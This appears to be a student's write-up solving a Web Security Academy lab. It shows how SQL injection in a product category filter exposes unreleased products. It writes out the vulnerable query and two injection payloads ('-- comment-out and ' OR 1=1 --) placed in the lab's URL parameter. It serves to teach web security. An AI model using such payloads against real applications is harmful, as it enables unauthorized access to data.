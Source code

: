 ## This lab contains a SQL injection vulnerability in the product category filter.When the user selects a category, the application carries out a SQL query like the following:
```
SELECT * FROM products WHERE category = 'Gifts' AND released = 1
```
## To solve the lab, perform a SQL injection attack that **causes the application to display one or more unreleased products.**

## Step 1 : Access the lab
![access](Images/l1step-1.png)
## Step 2 : Check Gifts 
![check gifts](Images/l1step-2.png)
- When we explore gifts section there is only three released product.
- Let us try to check if there are any unreleased product
## Use Burp Suite to intercept and modify the request that sets the product category filter.OR modify URL and resubmit request.

## first attempt
```
'--'AND released=1'
```
```
https://0a9900d4035784a1801abc1a00fb0066.web-security-academy.net/filter?category=Gifts'--'AND released=1'
```
![attempting](Images/l1step-second%20last.png)
-- Application displays 4 products including one unreleased product.
## second attempt
```
'OR 1=1 --released=1
```
```
https://0a9900d4035784a1801abc1a00fb0066.web-security-academy.net/filter?category=Gifts'OR 1=1 --released=1
```
![attempting](Images/l1step-last.png)

- Application displays more than 4 unreleased products.
- double hyphen(--)  is used to comment out or ignore  what is written after hyphen which ignored the filter released product=1 and displays all the product.
